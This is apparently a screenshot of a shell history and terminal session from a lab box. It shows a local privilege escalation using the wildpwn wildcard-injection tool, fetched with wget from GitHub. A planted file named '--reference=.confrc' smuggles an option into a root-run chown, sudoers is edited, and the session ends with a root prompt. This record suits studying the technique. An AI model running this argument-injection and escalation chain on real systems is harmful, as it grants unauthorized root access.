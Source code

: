   88  2025-01-11 19:47:31 cd Documents/ExploitTar/
   89  2025-01-11 19:47:32 ls -la
   90  2025-01-11 19:47:42 sysadmin@ip-10-0-1-227:/home/jane/Documents/ExploitTar$ python wildpwn.py -t /home/jane/Documents/ExploitTar -f Top12Thousand-probable-v2.txt -o /home/jane/Documents/ExploitTar/wildpwn_payload
   91  2025-01-11 19:47:42 usage: wildpwn.py [-h] [--file FILE] payload folder
   92  2025-01-11 19:47:56 ls -la
   93  2025-01-11 19:48:16 python wildpwn.py -t /home/jane/Documents/ExploitTar -f Top12Thousand-probable-v2.txt -o /home/jane/Documents/ExploitTar/wildpwn_payload
   94  2025-01-11 19:49:03 python wildpwn.py payload -t /home/jane/Documents/ExploitTar -f Top12Thousand-probable-v2.txt -o /home/jane/Documents/ExploitTar/wildpwn_payload
   95  2025-01-11 19:49:19 chmod +x wildpwn.py
   96  2025-01-11 19:49:25 sudo chmod +x wildpwn.py
   97  2025-01-11 19:49:33 python wildpwn.py payload -t /home/jane/Documents/ExploitTar -f Top12Thousand-probable-v2.txt -o /home/jane/Documents/ExploitTar/wildpwn_payload
   98  2025-01-11 19:50:25 python wildpwn.py tar -t /home/jane/Documents/ExploitTar -f Top12Thousand-probable-v2.txt -o /home/jane/Documents/ExploitTar/wildpwn_payload
   99  2025-01-11 19:51:16 python wildpwn.py tar --file Top12Thousand-probable-v2.txt --output /home/jane/Documents/ExploitTar/wildpwn_payload /home/jane/Documents/ExploitTar
  100  2025-01-11 19:51:45 python wildpwn.py tar --file Top12Thousand-probable-v2.txt /home/jane/Documents/ExploitTar/wildpwn_payload
  101  2025-01-11 19:51:56 ls -la
  102  2025-01-11 19:58:23 python3 wildpwn.py --output /home/jane/Documents/ExploitTar
 
 104  2025-01-11 19:58:49 wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
  105  2025-01-11 19:59:00 python3 wildpwn.py --output /home/jane/Documents/ExploitTar
  106  2025-01-11 19:59:06 ls -la
  107  2025-01-11 19:59:15 rm -rf .cache/
  108  2025-01-11 19:59:20 sudo rm -rf .cache/
  109  2025-01-11 19:59:35 ls -la
  110  2025-01-11 19:59:52 ls -la important\ docs/
  111  2025-01-11 20:00:16 ls -la .cache/
  112  2025-01-11 20:00:25 ./cachefile
  113  2025-01-11 20:00:58 ./.cachefile
  114  2025-01-11 20:01:28 sudo chown jane:jane .cache/.cachefile
  115  2025-01-11 20:01:42 file .cache/.cachefile
  116  2025-01-11 20:01:58 python3 wildpwn.py --output ~/Documents/ExploitTar
  117  2025-01-11 20:03:08 python2 wildpwn.py --output ~/Documents/ExploitTar
  118  2025-01-11 20:03:27 2to3-2.7 -w wildpwn.py
  119  2025-01-11 20:03:43 python3 wildpwn.py --output ~/Documents/ExploitTar
  120  2025-01-11 20:04:29 python3 wildpwn.py combined ~/Documents/ExploitTar
  121  2025-01-11 20:04:37 ls -la
  122  2025-01-11 20:05:14 ls -la
  123  2025-01-11 20:05:38 watch 'ls -la'
  124  2025-01-11 20:30:13 cd Documents/ExploitTar/
  125  2025-01-11 20:30:14 ls -la
  126  2025-01-11 20:30:24 cat .cache/.cachefile
  127  2025-01-11 20:30:39 cat .confrc
  128  2025-01-11 20:31:01 sudo visudo
  129  2025-01-11 20:31:53 ls -la
  130  2025-01-11 20:32:51 sudo visudo
  131  2025-01-11 20:33:33 whoami

jane@ip-10-0-1-227:~/Documents/ExploitTar$ ls -la
total 24
-rw-rw-r-- 1 jane jane    0 Jan 11 20:04 '--reference=.confrc'
drwxr-xr-x 4 jane jane 4096 Jan 11 20:04  .
drwxr-xr-x 4 jane jane 4096 Jan 11 18:21  ..
drwxr-xr-x 2 root root 4096 Jan 11 18:00  .cache
-rwxrwxrwx 1 jane jane    0 Jan 11 20:04  .confrc
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f1
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f10
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f2
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f3
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f4
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f5
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f6
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f7
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f8
-rwxr-xr-x 1 jane jane    0 Aug  5 18:44  f9
drwxr-xr-x 2 jane jane 4096 Aug  5 18:44 'important docs'
-rw-rw-r-- 1 jane jane 3703 Jan 11 20:03  wildpwn.py
-rw-rw-r-- 1 jane jane 3699 Jan 11 19:58  wildpwn.py.bak
jane@ip-10-0-1-227:~/Documents/ExploitTar$ watch 'ls -la'
root@ip-10-0-1-227:~/Documents/ExploitTar# whoami
root
root@ip-10-0-1-227:~/Documents/ExploitTar#
root@ip-10-0-1-227:~/Documents/ExploitTar#